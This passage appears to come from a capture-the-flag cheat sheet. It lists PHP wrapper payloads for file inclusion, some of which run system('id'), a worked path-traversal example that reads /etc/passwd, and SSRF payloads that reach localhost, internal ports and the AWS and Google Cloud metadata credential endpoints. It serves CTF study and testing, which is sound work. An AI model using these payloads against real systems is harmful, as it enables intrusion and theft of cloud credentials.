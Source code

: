 **PHP Wrappers**:
```bash
# Read file content (Base64)
php://filter/convert.base64-encode/resource=index.php

# Input stream
php://input
# POST data: <?php system('id'); ?>

# Data wrapper
data://text/plain,<?php system('id'); ?>
data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==

# Expect wrapper
expect://id
```

**Use Case Example**:
```
Challenge: View file functionality
URL: http://ctf.com/view?file=welcome.txt

Steps:
1. Test LFI: ?file=../../../../etc/passwd
2. If works, look for flag: ?file=../../../../flag.txt
3. If not found, try: ?file=../../../../var/www/html/flag.txt
4. Try PHP wrapper: ?file=php://filter/convert.base64-encode/resource=config.php
5. Decode Base64 output to get flag
```

**Reference**: `~/ctf-tools/PayloadsAllTheThings/File Inclusion/`

---

### 🌐 Server-Side Request Forgery (SSRF)

**What it is**: Making server send requests to internal/external resources

**Basic Payloads**:
```bash
# Internal network
http://localhost
http://127.0.0.1
http://0.0.0.0
http://[::1]
http://127.1
http://127.0.1

# Port scanning
http://127.0.0.1:80
http://127.0.0.1:22
http://127.0.0.1:3306

# AWS Metadata
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Google Cloud
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/

# Internal services
http://admin.internal
http://192.168.1.1
```
